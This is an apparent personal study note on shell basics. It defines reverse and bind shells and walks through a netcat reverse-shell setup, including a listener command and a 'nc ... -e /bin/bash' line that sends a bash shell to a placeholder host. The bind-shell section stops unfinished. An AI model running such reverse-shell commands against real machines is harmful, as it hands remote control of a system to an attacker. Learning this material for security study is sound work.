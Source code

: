 ```yaml
---
Status: Done
---
```

# Shell basics

## What is a reverse shell

![[/image 53.png|image 53.png]]

1. A victim connects to us
2. The attacker opens a port
3. The victim will then connect to that open port and open some short of bash shell

## What is a bind shell

![[/image 1 6.png|image 1 6.png]]

1. The attacker connects to the victim
2. The victim will

## basic reverse shell setup with netcat

1. Open two terminals

- In terminal one, type:
    
    ```Bash
    nc -nvlp 4444
    ```
    
- This does the following
    1. -n = numeric only IP addresses
    2. -v = verbose
    3. -l = listen mode for inbound connections
    4. -p = specifies the port to listen on
- In terminal two, type:
    
    ```Bash
    nc ip_address_of_nc_server -e /bin/bash
    ```
    

  

## basic bind shell setup with netcat

1. Open two terminals

- In terminal one, type:
    